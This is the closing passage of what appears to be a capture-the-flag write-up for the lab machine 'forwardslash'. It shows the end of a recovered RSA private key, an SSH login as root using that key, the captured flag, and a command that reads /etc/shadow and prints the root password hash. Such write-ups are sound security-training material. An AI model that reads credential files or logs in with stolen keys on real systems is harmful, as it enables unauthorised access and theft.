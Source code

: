 ```
woUx/e7cnPO9FMyr6pbr5vlVf/nUBEde37nq3rZ9mlj3XiiW7G8i9thEAm471eEi
/vpe2QfSkmk1XGdV/svbq/sCgYAZ6FZ1DLUylThYIDEW3bZDJxfjs2JEEkdko7mA
1DXWb0fBno+KWmFZ+CmeIU+NaTmAx520BEd3xWIS1r8lQhVunLtGxPKvnZD+hToW
J5IdZjWCxpIadMJfQPhqdJKBR3cRuLQFGLpxaSKBL3PJx1OID5KWMa1qSq/EUOOr
OENgOQKBgD/mYgPSmbqpNZI0/B+6ua9kQJAH6JS44v+yFkHfNTW0M7UIjU7wkGQw
ddMNjhpwVZ3//G6UhWSojUScQTERANt8R+J6dR0YfPzHnsDIoRc7IABQmxxygXDo
ZoYDzlPAlwJmoPQXauRl1CgjlyHrVUTfS0AkQH2ZbqvK5/Metq8o
-----END RSA PRIVATE KEY-----
```

This must be the root SSH key.

```
$ chmod 600 id_rsa_root
$ ssh root@forwardslash.htb -i id_rsa_root
```

Let's grab the loot!

```
root@forwardslash:~# cat root.txt
12c0583823e80694824b9dd3e6c2ae93

root@forwardslash:~# cat /etc/shadow | grep root
root:$6$daB3I84E$NnzV4cHTAgWsPGWoBKLO2W6NotitrAk6udeTh0cxvXWHIkDXZQtss13QP2gTgFOMdIYdQ8CtvSxzznHI.nVmW.:18326:0:99999:7:::
```

[burp]:https://inventory.raw.pm/tools.html#Burp%20Suite
[nmap]:https://inventory.raw.pm/tools.html#Nmap
[haiti]:https://inventory.raw.pm/tools.html#Haiti
[ffuf]:https://inventory.raw.pm/tools.html#ffuf
[xxeserv]:https://inventory.raw.pm/tools.html#xxeserv
[PEASS]:https://inventory.raw.pm/tools.html#PEASS
